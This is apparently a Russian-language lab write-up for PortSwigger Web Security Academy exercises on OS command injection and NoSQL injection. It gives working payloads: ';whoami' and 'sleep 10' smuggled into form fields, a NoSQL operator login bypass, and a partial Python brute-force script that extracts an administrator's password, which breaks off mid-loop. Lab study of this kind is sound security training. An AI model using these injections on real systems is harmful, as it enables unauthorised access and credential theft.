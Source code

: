 # Отчет по решению OS injection

## 1. Lab: OS command injection, simple case

Пошарился по лабе со включенным burp proxy, нашел post /product/stock, заинджектил в пост запрос `productId=2&storeId=1;whoami`

## 2. Lab: Blind OS command injection with time delays

В форме feedback можно поинжектить в поле email

` csrf=CvglT8HVqqhEjwmMgG9Z00uYphRnukWL&name=alaska&email=qwe%40ru.ru;sleep%2010;&subject=alaska&message=alaska`

## 3. Lab: Blind OS command injection with output redirection

Инжект находится в том же месте, где раньше, вывод можно посмотреть по пути /image?filename=who.txt

# Отчет по решению NoSQL

## 1. Lab: Detecting NoSQL injection

Инжект производится такой строкой
```
https://0a8b009a035541b580d0a832008f0051.web-security-academy.net/filter?category=Gifts%27||1||%27
```


## 2. Lab: Exploiting NoSQL operator injection to bypass authentication
```
{"username":{
"$regex": "admin.*"},"password":{
"$ne":""}
}
```


## 3. Lab: Exploiting NoSQL injection to extract data

Нашел ручку /user/lookup, написал переборный скрипт

```
import subprocess

for i in range(30):

    result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password.length=='{i}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()
    resfind = result.find("Could not find user")
    if resfind == -1:
        pass_len=i


print(pass_len)
alphabet="abcdefghijklmnopqrstuvwxyz"
pass_us = ""
for i in range(pass_len):
    for j in alphabet:
```